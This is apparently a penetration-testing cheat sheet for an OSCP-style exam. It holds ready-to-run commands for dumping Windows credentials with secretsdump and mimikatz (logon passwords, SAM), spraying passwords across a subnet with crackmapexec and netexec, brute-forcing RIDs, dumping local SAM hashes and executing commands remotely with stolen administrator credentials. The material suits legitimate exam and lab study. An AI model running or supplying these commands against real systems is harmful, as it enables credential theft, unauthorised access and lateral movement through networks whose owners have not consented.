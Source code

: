 ## Got Admin

- After getting admin always use secretsdump

```bash
secretsdump.py domain/user:pass@domain.com
```

- Run mimikatz:
 
```powershell
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

- Enumerate files manually. Use `tree /F` on `C:\Users` to display all files in the users directory recursively.

## Passord Spraying & PTH

**SMB**

```bash
smbclient -N -L //IP_TARGET/ -U domain.com/user%password
```

**SMB Password Spraying**

```bash
# Meglio utilizzare hydra a quanto pare!

# Vedere NetExec (successore di crackmapexec)

# Utilizzare --local-auth per provare un accesso locale alla macchina

sudo crackmapexec ssh $SUBNET_TARGET/24 -u users.txt -p passwords.txt

sudo netexec ssh $SUBNET_TARGET/24 -u users.txt -p passwords.txt

-u users.txt -p passwords.txt --continue-on-success

-u users.txt -p passwords.txt -d oscp.exam --continue-on-success

-u 'user' -p 'PASS' --rid-brute

-u 'user' -p 'PASS' -d 'oscp.exam' --groups

-u 'user' -p 'PASS' --local-users

-u 'user' -p 'PASS' --lusers

-u 'user' -p 'PASS' --sessions

-u 'Administrator' -p 'PASS' --local-auth --sam

-u 'Administrator' -p 'PASS' --local-auth --shares

-u users.txt -p passwords.txt -d oscp.exam --continue-on-success | grep "[+]"

-u users.txt -p 'Nexus123!' -d oscp.exam --continue-on-success

-u 'Administrator' -p 'PASS' -x whoami --local-auth
```
